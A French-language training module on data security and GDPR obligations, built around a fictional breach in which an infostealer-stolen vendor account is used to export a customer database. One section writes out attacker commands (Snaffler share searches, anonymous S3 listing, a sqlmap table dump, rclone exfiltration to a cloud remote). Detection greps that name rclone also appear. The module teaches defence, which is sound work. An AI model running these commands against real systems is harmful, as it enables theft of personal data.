

# Sécurité des données, protection juridique et conformité

## Objectifs pédagogiques

À la fin de ce module, vous saurez :

- **Classifier** un jeu de données selon deux axes (sensibilité métier et nature juridique) et en déduire une durée de conservation défendable.
- **Distinguer** les rôles de responsable de traitement, de sous-traitant, de DPO (Data Protection Officer) et de RSSI, et **identifier** qui répond de quoi lors d'un incident.
- **Déterminer** si un traitement exige une AIPD et quelle part de l'analyse revient à l'équipe sécurité.
- **Évaluer** ce que le chiffrement couvre, et ce qu'il laisse à découvert, face à une obligation du RGPD (General Data Protection Regulation).
- **Conduire** la qualification d'une violation de données dans les 72 heures et **documenter** la décision de façon à ce qu'elle résiste à un contrôle.

---

## Mise en situation

*Scénario illustratif : l'enseigne, les volumes et les délais sont fictifs, les mécanismes sont réels.*

Une enseigne de e-commerce de 400 salariés externalise le support de niveau 2. Un technicien du prestataire installe un cracked installer sur son poste personnel, qui sert aussi à se connecter au back-office du client.

Le malware est un infostealer de la famille RedLine. Il aspire les mots de passe enregistrés et les cookies de session du navigateur. Le lot de logs est revendu sur un marché criminel.

L'acheteur se connecte au back-office avec le compte du technicien. Ce compte n'a pas de MFA (authentification multifacteur), car « c'est un prestataire, on n'a pas la main sur ses postes ». Le back-office propose une fonction **Export clients (CSV)**, ouverte au support pour les litiges. L'attaquant lance l'export une seule fois. Il récupère 1,2 million de lignes : identité, adresse, e-mail, téléphone, historique de commandes, et IBAN pour les clients en prélèvement. L'historique remonte à 8 ans.

Côté défense, la direction se rassure : les disques sont chiffrés en LUKS, tout passe en TLS, « on est chiffré ». Onze jours plus tard, un extrait apparaît sur un forum. La suite :

- Le DPO apprend l'incident par la direction commerciale, pas par la sécurité.
- Il n'existe aucun log de lecture sur le back-office. Personne ne peut dire combien de personnes sont touchées.
- Le contrat du prestataire ne prévoit aucun délai de notification.
- La moitié des clients exportés n'avaient pas commandé depuis plus de 5 ans. Aucune purge n'existait.

Le chiffrement au repos protège contre le vol d'un disque ou d'un snapshot. Ici, l'attaquant est passé par l'application avec un identifiant valide, et l'application a déchiffré les données pour lui, comme pour n'importe quel utilisateur légitime. Le chiffrement n'a pas été contourné, il n'a simplement jamais été sollicité.

> 🏦 **Analogie : le coffre et le guichet**
>
> Le chiffrement au repos ressemble à un coffre-fort. Il résiste à celui qui emporte le coffre, pas à celui qui se présente au guichet avec un badge valide, car le guichetier ouvre alors le coffre lui-même. Limite de l'image : le « guichetier » n'est pas une personne qu'on pourrait tromper ou alerter. C'est l'application, qui déchiffre automatiquement pour toute session authentifiée.
{: .callout .callout-analogie}

Le reste du module reprend chaque défaillance de ce scénario.

---

## Surface d'attaque : où sont vraiment les données

Où vivent vraiment vos données personnelles ? La première erreur est de se limiter au schéma d'architecture officiel. Les données personnelles vivent surtout dans les endroits que personne n'a inscrits au registre.

| Vecteur | Exposition | Impact potentiel |
|---|---|---|
| Fonctions d'export applicatives (CSV, API bulk) | Ouvertes au support, à la BI, au marketing | Exfiltration massive en une requête, sans exploit |
| Partages de fichiers avec extractions « temporaires » | Droits hérités, jamais purgés | Découverte par un outil de recherche de fichiers sensibles ; copies hors périmètre du registre |
| Environnements de test alimentés par copie de prod | Moins protégés, accessibles aux développeurs et prestataires | Violation sur un traitement que personne n'avait déclaré |
| Sauvegardes et archives | Conservées au-delà de la durée prévue | Restauration de données qu'on croyait supprimées |
| Logs applicatifs et traces d'erreur | E-mails, tokens, parfois payloads complets | Données personnelles dans un outil lisible par beaucoup |
| Comptes prestataires et sous-traitants | Accès distant, MFA inégal | Compromission hors de votre périmètre, mais dans votre responsabilité |
| Stockage objet cloud | Politiques d'accès mal posées | Listing public, indexation par des moteurs spécialisés |
| Outils SaaS tiers (CRM, ticketing) | Contrats et localisation mal connus | Transferts hors UE non maîtrisés |

> 🧠 **Concept clé**
>
> Chaque copie de donnée est une surface d'attaque *et* une ligne à justifier juridiquement. Une copie hors registre n'est pas seulement un risque technique, c'est un traitement non documenté.
{: .callout .callout-important}

---

## Mécanisme d'attaque : comment on trouve et on sort les données

Un attaquant ne lit pas votre matrice de classification. Il cherche ce qui ressemble à de la donnée de valeur, par le nom des fichiers, le volume et les mots-clés.

**1. Accès initial.** Dans l'ordre de fréquence courante : identifiants issus d'infostealers (comme dans le scénario), credential stuffing sur un portail sans MFA, ou exploitation d'une application exposée non corrigée. L'incident Equifax de 2017 est lié à la CVE-2017-5638 (Apache Struts), dont le correctif existait depuis plusieurs semaines.

**2. Reconnaissance des données.** Sur un domaine Windows, 🔴 **Snaffler** parcourt les partages accessibles au compte compromis et classe les fichiers par regex (noms, extensions, contenus) :

```bash
Snaffler.exe -s -o snaffler.log
```

BloodHound, lui, identifie quels comptes ont des droits sur les serveurs de fichiers. Côté cloud, un test anonyme suffit :

```bash
aws s3 ls s3://<BUCKET> --no-sign-request
```

Sur une application web vulnérable à l'injection SQL, `sqlmap -u "<URL>?id=1" --dump -T <TABLE>` fait le travail. Les tables clients sont les premières visées.

**3. Préparation et exfiltration.** Les données sont archivées (7z avec mot de passe) puis poussées vers un stockage cloud avec 🔴 **rclone**, un outil légitime détourné très couramment :

```bash
rclone copy <DOSSIER_STAGING> <REMOTE>:<BUCKET> --transfers 16
```

Le trafic sort en HTTPS vers un fournisseur cloud grand public. Un filtrage par réputation de domaine le laisse passer.

**4. Monétisation.** Dans la double extorsion, les données sont volées *avant* le chiffrement des systèmes. Le chantage ne porte plus sur la restauration mais sur la publication. Certains groupes exploitent aussi le levier réglementaire : ils savent que l'entreprise a une obligation de notification, et que la divulgation publique déclenche des demandes de clients.

> 💡 **Astuce**
>
> Ce que vous n'avez plus ne peut pas fuiter. Sur un export de 8 ans dont seuls 3 ans étaient justifiés, la durée de conservation excessive multiplie le volume exfiltré, et donc le nombre de personnes à notifier. La purge est un contrôle de sécurité, au même titre qu'un correctif.
{: .callout .callout-astuce}

### Modèle de menace, version données

STRIDE (Spoofing, Tampering, Repudiation, Information disclosure, Denial of service, Elevation of privilege) reste utilisable, mais deux lettres pèsent plus que les autres ici : **I** (Information disclosure) et **R** (Repudiation). Sans traces, vous ne pouvez pas *prouver* ce qui a été lu, donc vous ne pouvez pas réduire le périmètre de votre notification.

| Acteur | Scénario le plus probable | Conséquence juridique |
|---|---|---|
| Cybercriminel opportuniste | Compte valide acheté, export de masse | Violation de confidentialité, notification probable |
| Employé sortant | Export CSV la veille du départ | Violation interne ; question de la preuve et de la base légale du traitement des logs |
| Prestataire négligent | Poste non maîtrisé, accès partagé | Responsabilité du responsable de traitement envers les personnes et l'autorité |
| Erreur humaine | Mailing en copie visible, mauvaise pièce jointe | Violation de confidentialité, souvent sous-estimée |
| Personne concernée mécontente | Demande d'accès ou plainte à l'autorité | Contrôle sur pièces : registre, durées, contrats |

---

## Classification et règles de conservation

Une classification utile sépare **deux axes**, parce qu'ils ne se recoupent pas.

- **Axe sensibilité métier** : public, interne, confidentiel, secret. Il pilote le chiffrement, l'accès et la diffusion.
- **Axe nature juridique** : donnée personnelle ou non, catégories particulières au sens de l'article 9 du RGPD (santé, opinions, biométrie…), données de paiement, secrets professionnels. Il pilote la base légale, la durée et les obligations de notification.

Un fichier de prospects n'est pas « secret » côté métier, mais il est soumis au RGPD. Un plan stratégique est secret, mais sans donnée personnelle. Une classification à un seul axe rate l'un des deux.

| Niveau métier | Exemple | Règle de manipulation |
|---|---|---|
| Public | Catalogue produits | Aucune restriction |
| Interne | Procédure d'exploitation | Pas de diffusion externe |
| Confidentiel | Base clients, contrats | Accès nominatif, journalisation, chiffrement des exports |
| Secret / sensible | Données de santé, clés, dossiers RH disciplinaires | Accès par habilitation explicite, traçabilité des lectures, cloisonnement |

### La conservation comme contrôle

Le principe de limitation de la conservation (art. 5 du RGPD) se traduit par un cycle en trois phases :

1. **Base active** : usage courant.
2. **Archivage intermédiaire** : accès restreint, obligation légale ou contentieux potentiel.
3. **Suppression** ou archivage définitif.

Les durées dépendent de la finalité et parfois de textes précis. Les pièces comptables sont en général conservées dix ans. Pour la prospection commerciale, les référentiels de la CNIL évoquent trois ans après le dernier contact. À confirmer avec le juridique pour votre contexte.

Côté technique, c'est la mise en œuvre qui échoue :

- La purge tourne sur la base de production, mais pas sur les sauvegardes, les exports, les environnements de test ni les logs.
- Les sauvegardes ne se purgent pas ligne à ligne. La pratique courante est de borner leur durée de rétention et de tenir un **journal des suppressions** rejoué après toute restauration.
- La requête de contrôle est simple et doit retourner zéro : `SELECT count(*) FROM clients WHERE last_order_at < now() - interval '<N> years' AND legal_hold = false;`

---

## ⭐ Données personnelles : cadre et responsabilités

Le RGPD est un **règlement** : directement applicable dans les États membres, contrairement à une directive comme NIS2, qui exige une transposition nationale. Le statut de cette transposition en France est à vérifier à la date où vous lisez ce cours.

### Les principes qui structurent tout le reste

L'article 5 pose sept principes : licéité-loyauté-transparence, limitation des finalités, minimisation, exactitude, limitation de la conservation, intégrité et confidentialité, et responsabilité (*accountability*). Le dernier est celui que l'ingénieur sous-estime. Il ne suffit pas d'être conforme, il faut pouvoir **le démontrer** à tout moment. Une mesure non documentée est, pour un contrôleur, une mesure qui n'existe pas.

La **base légale** (art. 6 : consentement, contrat, obligation légale, intérêt légitime, etc.) n'est pas une formalité juridique. Elle conditionne les droits des personnes, donc des fonctionnalités à développer. Si la base est le consentement, le retrait doit déclencher un effacement. Si c'est l'intérêt légitime, l'opposition doit pouvoir être traitée.

### Qui répond de quoi

| Rôle | Responsabilité | Exemple |
|---|---|---|
| Responsable de traitement | Détermine finalités et moyens ; répond de la conformité (art. 24), notifie (art. 33), informe les personnes (art. 34) | L'enseigne de e-commerce |
| Sous-traitant | Traite pour le compte du responsable, sur instruction documentée (art. 28) ; a aussi des obligations directes : sécurité, registre, notification au responsable | Le prestataire de support |
| Responsables conjoints | Déterminent ensemble finalités et moyens ; répartition à documenter (art. 26) | Deux entités partageant une plateforme |

La qualification se fait **par les faits**, pas par le contrat. Un prestataire qui décide seul de la finalité d'un traitement devient responsable de traitement, quoi que dise la clause.

Sous-traiter ne transfère pas la responsabilité. Si le prestataire est compromis, c'est l'enseigne qui notifie et qui répond devant les personnes.

### Conséquences concrètes pour l'équipe technique

Les droits d'accès, de rectification, d'effacement, de portabilité et d'opposition doivent recevoir une réponse **sous un mois** (art. 12). Vous devez donc savoir retrouver toutes les données d'une personne dans les bases, les logs, les backups et les outils SaaS. Un test réaliste : prenez une personne fictive créée pour l'occasion et cherchez tous les systèmes où elle apparaît.

Les sanctions sont de deux ordres :

- **Administratives** : jusqu'à 10 M€ ou 2 % du chiffre d'affaires mondial pour les manquements aux obligations de sécurité, de notification, d'AIPD ou de désignation du DPO (art. 83.4), et jusqu'à 20 M€ ou 4 % pour les atteintes aux principes, aux droits et aux transferts (art. 83.5). L'autorité peut aussi ordonner la limitation ou l'interdiction d'un traitement (art. 58), ce qui peut arrêter un produit.
- **Civiles** : toute personne ayant subi un dommage matériel ou moral peut demander réparation (art. 82).

Le droit pénal national peut s'ajouter. C'est une question à poser au juridique, pas à l'équipe sécurité.

### Transferts hors UE

Un SaaS américain hébergeant vos données implique un mécanisme de transfert (décision d'adéquation, clauses contractuelles types, etc.). Ce cadre a changé plusieurs fois depuis l'arrêt Schrems II de 2020. Vérifiez l'état actuel avant de vous prononcer, il n'y a pas de réponse figée.

---

## DPO et RSSI : deux rôles, deux logiques

| | DPO | RSSI |
|---|---|---|
| Protège | Les droits et libertés des personnes | Les actifs et la continuité de l'organisation |
| Base | RGPD, art. 37 à 39 | Politique interne, référentiels, gouvernance |
| Rattachement | Au plus haut niveau de direction ; indépendance fonctionnelle | Direction générale ou DSI selon l'organisation |
| Livrables typiques | Avis, registre, suivi des AIPD, point de contact de l'autorité | Politique de sécurité, plans de traitement des risques, tableaux de bord |
| Reçoit des instructions | Pas sur l'exercice de ses missions | Oui, de la direction |

Le DPO **conseille et contrôle**, il ne porte pas la conformité à la place du responsable de traitement. Le RSSI **définit et met en œuvre** les mesures de sécurité.

L'art. 38.6 autorise le DPO à exercer d'autres missions à condition qu'elles n'entraînent pas de conflit d'intérêts. Les lignes directrices de l'EDPB et la doctrine de la CNIL considèrent le poste de RSSI comme typiquement incompatible : celui qui choisit les moyens ne peut pas être celui qui les contrôle.

Le conflit se voit au quotidien : le RSSI veut garder les logs 12 mois pour la détection, le DPO conteste au nom de la minimisation. Ce désaccord est sain. L'arbitrage appartient à la direction, et la décision doit être écrite.

Côté exploitation, la coordination se règle sur un point simple : **le DPO doit être dans la boucle d'escalade dès la qualification d'un incident impliquant des données personnelles**. Dans notre scénario, il l'a appris par la direction commerciale, ce qui a coûté des heures sur les 72 disponibles.

---

## AIPD : décider avant de construire

L'AIPD (Data Protection Impact Assessment) est exigée quand un traitement est susceptible d'engendrer un **risque élevé pour les droits et libertés des personnes** (art. 35). Le critère est le risque pour les *personnes*, pas pour l'entreprise. C'est la nuance que les équipes sécurité manquent le plus souvent.

> 📖 **Définition**
>
> L'AIPD est une analyse formalisée qui décrit le traitement, juge sa nécessité et sa proportionnalité, évalue les risques pour les personnes et définit les mesures qui les réduisent.
{: .callout .callout-definition}

**Quand en faire une.** L'article 35.3 cite l'évaluation systématique à grande échelle fondée sur un traitement automatisé (profilage), les catégories particulières à grande échelle, et la surveillance systématique d'un lieu public.

Le comité européen de protection des données (EDPB) a décliné neuf critères : scoring, décision automatisée à effet, surveillance systématique, données sensibles, grande échelle, croisement de jeux de données, personnes vulnérables, usage innovant, exclusion du bénéfice d'un droit. Deux critères réunis rendent l'AIPD généralement nécessaire.

La CNIL publie en outre des listes de traitements qui exigent une AIPD ou en sont dispensés. Elle a aussi publié un outil PIA gratuit pour la conduire.

**Ce que l'équipe sécurité apporte.** La méthode de la CNIL raisonne sur trois événements redoutés : **accès illégitime** aux données, **modification non désirée**, **disparition**.

> 🔑 **Moyen mnémotechnique**
>
> Pensez **CID**. Accès illégitime → **C**onfidentialité, modification non désirée → **I**ntégrité, disparition → **D**isponibilité. Ce sont les trois mêmes atteintes qui définissent une violation de données.
{: .callout .callout-memo}

Pour chacun, on décrit les sources de risque, les menaces, les impacts sur les personnes, puis on évalue gravité et vraisemblance. Vous fournissez les scénarios de menace et la partie « mesures ». Si le risque résiduel reste élevé après mesures, une **consultation préalable** de l'autorité est obligatoire (art. 36).

> ⚠️ **Erreur fréquente**
>
> L'AIPD « de façade », rédigée après la mise en production, qui décrit l'architecture existante au lieu de la faire évoluer. Une AIPD utile change au moins une décision de conception : durée réduite, pseudonymisation, suppression d'un champ, cloisonnement. Si l'AIPD n'a rien modifié, elle a probablement été faite trop tard.
{: .callout .callout-attention}

---

## Accès, chiffrement, traçabilité : les contrôles techniques

### Gestion des accès : séparer l'export du reste

Le RBAC (Role-Based Access Control) n'est pas détaillé ici. On se concentre sur ce qui compte pour les données :

- L'accès se justifie par une **finalité** (traiter un litige), pas seulement par un titre de poste.
- Les fonctions de **sortie massive** (export, API bulk, requête libre) forment un privilège séparé : quota, approbation pour les volumes importants, journalisation obligatoire.
- L'accès aux données de production par les développeurs et les prestataires passe par une élévation à durée limitée.
- Les environnements de test reçoivent des données pseudonymisées ou synthétiques, jamais une copie brute.

> 🔒 **Contrôle de sécurité**
>
> Retirer l'export CSV du profil support et le remplacer par une recherche unitaire aurait, dans notre scénario, limité la fuite à quelques dizaines de fiches.
{: .callout .callout-securite}

### Chiffrement : quelle couche contre quel scénario

| Couche | Protège contre | Ne protège pas contre | Coût |
|---|---|---|---|
| Disque / volume (LUKS, BitLocker) | Vol de matériel, snapshot récupéré | Tout accès via un système démarré | Négligeable |
| Base (chiffrement transparent) | Fuite de fichiers de données, backup volé | Requête SQL d'un compte valide, injection | Faible à modéré |
| Champ applicatif | Dump SQL, administrateur de base curieux | Application compromise qui déchiffre | Recherche et tri limités, gestion de clés |
| Transport (TLS) | Interception réseau | Compromission des extrémités | Faible |

La gestion des clés fait ou défait la couche. Une clé stockée à côté des données ne protège rien. Elle doit vivre dans un KMS (Key Management Service) ou un HSM (Hardware Security Module), avec des droits distincts de ceux qui lisent la base.

### Pseudonymisation : ce qu'elle n'est pas

> 📖 **Définition**
>
> La **pseudonymisation** remplace les identifiants directs par un pseudonyme : la donnée reste personnelle tant qu'une clé permet de la ré-identifier. Elle réduit le risque, elle ne supprime pas l'obligation. L'**anonymisation**, elle, rend la ré-identification impossible *de manière raisonnable*, et le seuil est strict.
{: .callout .callout-definition}

> ⚠️ **Erreur fréquente**
>
> « anonymiser » des e-mails avec un simple SHA-256. Le résultat est **déterministe** et un dictionnaire d'e-mails permet de l'inverser.
{: .callout .callout-attention}

```bash
# Même entrée, même sortie : trivial à recouper
echo -n 'alice@example.com' | sha256sum
```

Correction : utiliser un HMAC avec une clé secrète gardée à part.

```sql
SELECT encode(hmac(email, '<CLE_SECRETE>', 'sha256'), 'hex') FROM clients;
```

Nécessite l'extension `pgcrypto` sous PostgreSQL. Le résultat reste une donnée personnelle pseudonymisée.

### Traçabilité : ce qui permet de répondre en 72 heures

La notification doit indiquer la nature de la violation, les catégories et le **nombre approximatif** de personnes et d'enregistrements concernés (art. 33.3). Sans log de lecture, vous ne pouvez pas affirmer qu'une donnée n'a *pas* été lue. L'estimation par défaut est donc la totalité de la base, et le nombre de personnes à notifier explose.

```bash
# Journaliser lectures/écritures sur un dossier sensible
auditctl -w /srv/rh/dossiers -p rwa -k rh_dossiers
ausearch -k rh_dossiers
```

Sous PostgreSQL, l'extension `pgaudit` (classes `read`, `write`, `role`, `ddl`) remplit le même rôle. Le coût est réel : sur une base transactionnelle chargée, journaliser toutes les lectures peut multiplier le volume de logs. Ciblez les tables sensibles plutôt que tout le schéma.

Les logs sont eux-mêmes des données personnelles. Leur accès doit être restreint et leur durée bornée. La CNIL a publié une recommandation sur la journalisation avec des durées de conservation indicatives, de l'ordre de six mois à un an selon les cas. Vérifiez la version en vigueur.

---

## ⚠️ La conformité RGPD ne se résume pas au chiffrement

C'est l'erreur de cadrage la plus coûteuse. Elle a deux origines : l'article 32 cite le chiffrement comme exemple de mesure, et l'article 34.3 en fait un motif de dispense. Les deux passages sont ensuite lus comme « chiffrer = conforme ».

| Obligation | Le chiffrement répond-il ? |
|---|---|
| Base légale (art. 6) | Non : on peut chiffrer un traitement illicite |
| Minimisation et finalité (art. 5) | Non : on chiffre aussi des données inutiles |
| Durée de conservation (art. 5) | Non : on peut chiffrer 10 ans de trop |
| Information des personnes (art. 13-14) | Non |
| Droits d'accès, d'effacement… (art. 15-22) | Non : il faut même pouvoir déchiffrer pour les exercer |
| Contrat sous-traitant (art. 28) | Non |
| AIPD (art. 35) | Non : il alimente au mieux la partie « mesures » |
| Registre (art. 30) | Non |
| Sécurité (art. 32) | Partiellement : une mesure parmi d'autres, avec tests réguliers, résilience et contrôle d'accès |
| Notification de violation (art. 33-34) | Partiellement : l'information des personnes peut être levée si les données sont inintelligibles (art. 34.3.a). L'évaluation du risque et la notification à l'autorité restent à conduire |

Dans notre scénario, le chiffrement existait, mais il était inopérant face à l'accès applicatif. L'autorité aurait de plus relevé l'absence de purge, l'absence de MFA sur un compte à accès massif, le contrat de sous-traitance incomplet et l'absence de traces.

---

## Incident de sécurité : où commence le risque juridique

Une violation de données au sens du RGPD est toute atteinte à la **confidentialité, l'intégrité ou la disponibilité** de données personnelles, accidentelle ou illicite. Un ransomware qui rend les données indisponibles en est une, même si rien n'a été exfiltré.



**L'horloge.** Les 72 heures courent à partir du moment où le responsable de traitement a **connaissance** de la violation (art. 33). Cela ne signifie pas que la détection tardive soit sans conséquence : une organisation qui met onze jours à détecter peut être questionnée sur la pertinence de ses mesures de sécurité (art. 32).

Si l'information est incomplète, la notification peut se faire par phases. Le sous-traitant doit, lui, prévenir le responsable de traitement « dans les meilleurs délais ».

**Qui décide.** Le responsable de traitement, avec l'avis du DPO. Le RSSI fournit les faits (périmètre, vecteur, données touchées), pas la qualification juridique.

**Toutes les violations sont documentées**, y compris celles qui ne sont pas notifiées (art. 33.5). Un contrôleur peut demander le registre des violations pour vérifier que vos choix de non-notification étaient justifiés.

**Autres expositions.** L'action civile des personnes (art. 82), les recours contractuels de clients B2B, les clauses de déclaration de votre assureur cyber (souvent des délais courts, à relire avant l'incident) et les suites pénales selon le droit national.

> 💡 **Astuce**
>
> Ce qui s'écrit pendant la crise sera lu plus tard par l'autorité. Écrivez des faits datés, pas des qualifications prématurées. « Nous nous sommes fait hacker par un groupe étatique » dans un canal Slack devient une pièce.
{: .callout .callout-astuce}

---

## Autorités, prestataires, sous-traitants

### L'autorité de contrôle

En France, c'est la CNIL. La notification de violation passe par un téléservice dédié, mais la préparation est plus importante que le formulaire. Prévoyez à l'avance qui est le point de contact, qui valide les échanges, et surtout **une seule voix** vers l'extérieur. La coopération avec l'autorité est une obligation (art. 31). Un contrôle porte sur pièces, sur place, en ligne ou par audition.

### Les sous-traitants

L'article 28 impose un contrat ou acte juridique écrit. Dans la pratique, les points qui font la différence en incident :

- Traitement uniquement sur **instruction documentée** du responsable de traitement.
- **Délai de notification** d'une violation contractuellement court (24 à 48 h est courant).
- Liste des sous-traitants ultérieurs et **autorisation préalable** pour en ajouter.
- Mesures de sécurité minimales exigées, dont l'authentification renforcée pour les accès à distance.
- Droit d'audit réel (rapports ISO 27001 ou équivalent demandés chaque année, pas seulement une clause).
- Suppression ou restitution des données en fin de contrat, avec preuve.

Un contrat fort sur le papier mais jamais audité ne vaut pas mieux qu'un contrat faible. Ce que vous pouvez concrètement demander à un prestataire : l'attestation de certification, le rapport d'audit externe, la politique de gestion des accès, et la preuve du MFA sur les comptes qui touchent vos données.

---

## Documenter les décisions et les mesures

Le principe de responsabilité signifie que la **preuve** est un livrable. L'autorité demandera typiquement :

- le registre des traitements (art. 30), qui couvre en pratique presque toutes les organisations ;
- les AIPD et leurs mises à jour ;
- les contrats avec les sous-traitants ;
- la politique de conservation et les preuves de purge ;
- le registre des violations ;
- les preuves de mesures de sécurité (configurations, résultats de tests, revues d'accès) ;
- les traces de formation et de sensibilisation.

Une décision de non-notification, ou d'acceptation d'un risque résiduel, mérite un enregistrement structuré :

```yaml
decision_id: <ID_DECISION>
date: <DATE>
contexte: "Export CSV exposé via compte support <COMPTE>"
qualification: violation_confidentialite
donnees_concernees: [identite, coordonnees, historique_commandes]
personnes_estimees: <NOMBRE>
fondement_estimation: "aucun log de lecture sur le back-office : hypothèse maximale, totalité de l'export"
risque_pour_personnes: eleve
notification_autorite: oui
date_prise_de_connaissance: <TIMESTAMP>
date_notification: <TIMESTAMP>
information_personnes: oui
decideur: <RESPONSABLE_TRAITEMENT>
avis_dpo: <REFERENCE_AVIS>
mesures_correctives: [mfa_prestataires, suppression_export_csv, purge_historique]
```

Ce n'est pas de la bureaucratie. Dans six mois, quand l'autorité demandera pourquoi vous avez décidé ainsi, ce document est votre seule réponse crédible.

---

## Tests et détection

À faire concrètement après ce module :

```bash
# 1. Chercher des IBAN en clair dans un partage
grep -rEl 'FR[0-9]{2}( ?[0-9A-Z]{4}){5} ?[0-9A-Z]{3}' <PARTAGE>

# 2. Vérifier qu'un bucket S3 n'est pas public
aws s3api get-public-access-block --bucket <BUCKET>
aws s3 ls s3://<BUCKET> --no-sign-request      # doit échouer en AccessDenied

# 3. Chercher rclone dans les logs du proxy
grep -i 'rclone/' <LOG_PROXY>
```

Sur le plan de la détection, les indicateurs à surveiller :

- Volume sortant inhabituel d'un compte support ou prestataire.
- Appels répétés à la fonction d'export ou à l'API bulk.
- Connexions hors heures ouvrées depuis une géographie inhabituelle.
- User-Agent d'outils de transfert (rclone, MEGAsync) dans les logs de sortie.
- Accès massifs à des tables sensibles par un compte non applicatif.

Tests organisationnels, sans commande mais tout aussi vérifiables :

- **Test de droit d'accès** : créez une personne fictive et vérifiez que vous retrouvez toutes ses données (bases, logs, SaaS, backups) dans le délai d'un mois.
- **Exercice de qualification** : simulez la fuite d'un export, chronométrez le temps pour obtenir le nombre de personnes concernées. Si c'est impossible, vous avez un problème de traçabilité.
- **Revue de rétention** : exécutez la requête de contrôle et comparez avec la politique écrite.

---

## Scénario de référence : le post-mortem

*Toujours le scénario fictif de la mise en situation. Les délais sont illustratifs.*

| Jour | Événement |
|---|---|
| J0 | Compromission du poste du technicien, export CSV exécuté |
| J11 | Extrait publié sur un forum ; la direction commerciale alerte |
| J11 + 4 h | La sécurité confirme ; le DPO est prévenu |
| J12 | Impossible d'établir le nombre de personnes : aucun log de lecture ; hypothèse maximale retenue |
| J13 | Notification à l'autorité, **par phases** ; information des clients en préparation |
| J14+ | Demandes d'accès massives ; contact avec le prestataire pour obtenir ses éléments |

Les leçons tiennent en un tableau :

| Écart | Conséquence | Correction |
|---|---|---|
| Pas de MFA sur le compte prestataire | Accès initial trivial | MFA exigé contractuellement et vérifié |
| Export massif ouvert au support | Exfiltration en une requête | Export séparé, quota, approbation |
| Aucune purge | 1,2 M de personnes au lieu de moins de 600 000 | Rétention automatisée et testée |
| Pas de log de lecture | Estimation maximale | Audit ciblé des tables clients |
| Contrat sans délai de notification | Information tardive | Avenant : 24 h |
| DPO hors boucle | Heures perdues | Escalade incident incluant le DPO |

---

## Erreurs fréquentes

⚠️ **Copie de production dans les environnements de test.** Les développeurs et les prestataires de recette accèdent à des données réelles, hors registre. Détection : regex sur les bases de test (`grep` sur e-mails, IBAN) ou outil de découverte de données. Correction : pipeline de pseudonymisation à la copie, ou jeu synthétique.

⚠️ **DPO et RSSI confondus, ou DPO sans accès aux projets.** Le conflit d'intérêts affaiblit les deux fonctions, et un DPO consulté après coup ne peut pas conseiller. Correction : rôles séparés, DPO invité aux revues d'architecture et à l'escalade incident.

⚠️ **Contrat sous-traitant signé sans délai de notification ni droit d'audit.** En incident, vous découvrez que le prestataire vous prévient quand il veut. Correction : avenant avec délai court, liste des sous-traitants ultérieurs, demande annuelle d'attestation.

⚠️ **Logs en DEBUG avec payloads complets.** E-mails, tokens et données de formulaire apparaissent en clair dans un outil lisible par tout le monde. Détection : `grep -iE '@[a-z0-9.-]+\.[a-z]{2,}' <LOG>`. Correction : filtrage dans le middleware de logging avant écriture, rétention bornée.

⚠️ **Registre figé.** Rempli lors d'un projet de mise en conformité, jamais mis à jour. Correction : lier la mise à jour au processus de changement. Une nouvelle application ou un nouveau SaaS ne passe pas en production sans une ligne dans le registre.

⚠️ **Hash simple pris pour de l'anonymisation.** Voir plus haut : réversible par dictionnaire. Correction : HMAC avec clé séparée, et traiter le résultat comme une donnée personnelle pseudonymisée.

---

## Résumé

Les données personnelles sont exposées par des chemins que le chiffrement ne couvre pas : fonctions d'export, comptes prestataires, copies oubliées, logs et sauvegardes. Un attaquant les trouve par recherche de fichiers, injection ou compte valide, puis les exfiltre avec des outils légitimes comme rclone. Le RGPD transforme la fuite en risque juridique : notification sous 72 heures, responsabilité du responsable de traitement même en cas de sous-traitance, preuve exigée à chaque étape. La défense repose sur une classification à deux axes, une conservation bornée, un export séparé du reste, des traces de lecture et des contrats exploitables. À surveiller ensuite : les durées réelles de purge, les sauvegardes, l'évolution des cadres de transfert hors UE et le statut de transposition des textes européens comme NIS2.

---

<!-- snippet
id: rgpd_violation_notification_72h
type: concept
tech: rgpd
level: intermediate
importance: high
format: knowledge
tags: rgpd,violation,notification,incident
title: Notification de violation : l'horloge des 72 heures
context: Article 33 du RGPD
content: L'article 33 impose de notifier l'autorité dans les 72 h après avoir pris connaissance d'une violation, sauf si la violation n'est pas susceptible d'engendrer un risque pour les personnes. L'horloge ne s'arrête ni le week-end ni la nuit. Si les informations manquent, la notification peut se faire par phases. Le sous-traitant prévient le responsable de traitement dans les meilleurs délais, et c'est ce dernier qui notifie.
description: Le délai court à partir de la connaissance, pas de l'intrusion. Une détection tardive reste un sujet de sécurité (art. 32). La notification par phases est permise.
-->

<!-- snippet
id: rgpd_chiffrement_disque_limite
type: warning
tech: rgpd
level: intermediate
importance: high
format: knowledge
tags: rgpd,chiffrement,luks,conformite
title: Chiffrement disque : ne protège pas contre un compte valide
content: Chiffrer seulement les volumes (LUKS, BitLocker) ou la base donne un faux sentiment de conformité : un compte applicatif volé lit les données déchiffrées, et l'export CSV les renvoie en clair. Conséquence : violation de confidentialité malgré le chiffrement. Correction : combiner contrôle d'accès par finalité, export séparé et journalisé, chiffrement de champ pour les données sensibles, minimisation et purge.
description: Le chiffrement au repos protège du vol de support, pas de l'accès via l'application. Il couvre une fraction des obligations du RGPD.
-->

<!-- snippet
id: rgpd_pseudonymisation_hash_simple
type: warning
tech: rgpd
